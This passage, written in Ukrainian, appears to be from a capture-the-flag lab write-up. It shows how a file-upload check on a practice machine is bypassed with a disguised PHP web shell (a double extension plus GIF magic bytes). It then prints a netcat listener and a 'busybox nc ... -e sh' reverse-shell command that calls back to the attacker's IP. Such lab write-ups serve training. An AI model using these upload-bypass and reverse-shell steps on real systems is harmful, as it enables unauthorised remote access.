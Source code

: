 З зображення вище:
1. змінити filename на `index.gif.php.`
2. надіслати [PHP cmd пейлоад](https://www.revshells.com/) з magic bytes на початку файлу для обходу перевірки GIF MIME типу
3. бекенд парсить його як gif і показує, що мій PHP cmd шел знаходиться за адресою `http://environment.htb/storage/files/index.gif.php`

![image](imgs/rce.png)

Тепер у нас є RCE (Remote Code Execution) на цілі. Щоб отримати на нашій машині зворотний шел, потрібно:

## Reverse Shell

1. У нашому терміналі:
   ```bash
   rlwrap nc -lvnp 1337
   ```

2. На нашому завантаженому PHP cmd шелі надіслати будь-який шел під лінукс, що вказуватиме на наш IP:
   ```bash
   busybox nc 10.10.14.53 1337 -e sh
   ```

![image](imgs/revshell.png)
